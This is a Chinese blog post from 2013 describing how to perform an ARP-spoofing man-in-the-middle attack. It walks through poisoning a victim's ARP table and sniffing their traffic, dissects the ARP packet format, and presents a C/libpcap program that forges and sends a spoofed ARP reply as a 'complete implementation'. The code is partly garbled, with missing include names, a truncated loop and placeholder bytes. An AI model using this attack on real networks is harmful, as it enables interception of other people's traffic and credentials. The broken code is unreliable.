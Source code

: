 ```yaml
---
date: 2013-03-20
layout: post
title: arp欺骗中间人攻击的实现、arp包解析
categories:
- program
tags: []
published: true
comments: true
---
```

<p>首先先是了解下什么arp欺骗 可以参加这篇文章http://www.ahstu.edu.cn/wlzx/HTML/20090923173022.shtml<br />
看完这篇文章我们就可以实施攻击<br />
1.首先登陆自己的路由器 先对自己准备攻击的机器获得mac地址的信息（在真正攻击时需要用嗅探广发同个子网下的arp广播来获得mac地址）<br />
2.对被攻击的mac地址绑定静态ip（这步在真正攻击时并不需要、我只是为了方便）<br />
3.在路由器中进行绑定把被攻击者的ip的绑定到攻击者的mac地址（在真正攻击时对路由器发送欺骗的ARP欺骗响应在之后会说到）<br />
4.对被攻击者发送arp欺骗应答使之网关的mac地址映射到攻击者的机器上或者简单的 arp -s attack's mac gateway就可以了<br />
------------------ARP表的设置基本完成----------------------------------------------------------------------------<br />
接下去需要打开自己网卡的路由功能（这个可以简单的打开共享网络来做到)<br />
然后开个wireshark什么就安安静静的看着来回所有的数据全给抓到就可以了:P<br />
------------------上面只是理想情况是你知道路由器密码别的情况你该怎么办？被攻击的人能老老实实给你用他电脑么?------------<br />
接下去我们要分析下arp数据包<a href="http://snorlax-wordpress.stor.sinaapp.com/uploads/2013/03/54A4717D-5EB0-4B9A-9D84-10A71FC0A72C.jpg"><img src="http://snorlax-wordpress.stor.sinaapp.com/uploads/2013/03/54A4717D-5EB0-4B9A-9D84-10A71FC0A72C.jpg" alt="" title="54A4717D-5EB0-4B9A-9D84-10A71FC0A72C" width="680" height="232" class="alignnone size-full wp-image-299" /></a>
然后我从真实抓下来的arp进行分析<br />
首先arp广播包是 42个字节<br />
arp响应包是60个字节(后面18个我实在没搞明白是什么……反正我乱填也是成功就是的了<br />
然后我贴代码对这42个字节进行具体分析<br />
因为socket的封装都在ip之上的……unp上查到的sock_packet我在mac上死活也没找到= =<br />
不过我发现给在数据连路层上的更好的一组东西:)<br />
神器不解释啊= =<br />
详见<br />
http://dog.tele.jp/winpcapeng/html/group__wpcap__fn.html</p>

<p>
```

#include
#include

#include

int main(int argc, char **argv) {
    pcap_t *fp;
    char error[PCAP_ERRBUF_SIZE];
    u_char packet[60];
    int i;

    /* Check the validity of the command line */
    if (argc != 2)
    {
        printf("usage: %s inerface", argv[0]);
        return -1;
    }

    /* Open the output adapter */
    if((fp = pcap_open_live("en0", 100, 1, 1000, error) ) == NULL)
    {
        fprintf(stderr,"\nError opening adapter: %s\n", error);
        return -1;
    }

    /* Supposing to be on ethernet, set mac destination to 1:1:1:1:1:1 */
    /*被攻击者的mac*/
    packet[0]=xx;
    packet[1]=32;
    packet[2]=102;
    packet[3]=8;
    packet[4]=jiubu;
    packet[5]=gaosuni;

    /* set mac source to 2:2:2:2:2:2 */
    /*攻击者的mac*/
    packet[6]=jiu;
    packet[7]=bu;
    packet[8]=gaosu;
    packet[9]=234;
    packet[10]=xx;
    packet[11]=100;
    /*arp*/
    packet[12]=8;
    packet[13]=6;
    /*arp首部*/
    packet[14]=0;
    packet[15]=1;

    packet[16]=8;
    packet[17]=0;

    packet[18]=6;
    packet[19]=4;
    packet[20]=0;
    packet[21]=2;
    /*被骗的那个人的arp表上的假mac*/
    packet[22]=jiu;
    packet[23]=154;
    packet[24]=32;
    packet[25]=bu;
    packet[26]=253;
    packet[27]=gao;
    /*被骗者的网关*/
    packet[28]=192;
    packet[29]=168;
    packet[30]=1;
    packet[31]=1;
    /*被攻击者的mac*/
    packet[32]=xx;
    packet[33]=32;
    packet[34]=102;
    packet[35]=xx;
    packet[36]=xx;
    packet[37]=184;
    /*被攻击者的ip*/
    packet[38]=192;
    packet[39]=168;
    packet[40]=1;
    packet[41]=114;

    /* Fill the rest of the packet */
    /*乱填就好了*/
    for(i=42;i
        packet[i]=i%256;
    }

    /* Send down the packet */
    pcap_sendpacket(fp,
                    packet,
                    60);

    return 0;
}


以上arp欺骗的完整实现、不要用来干坏事= =
>

```
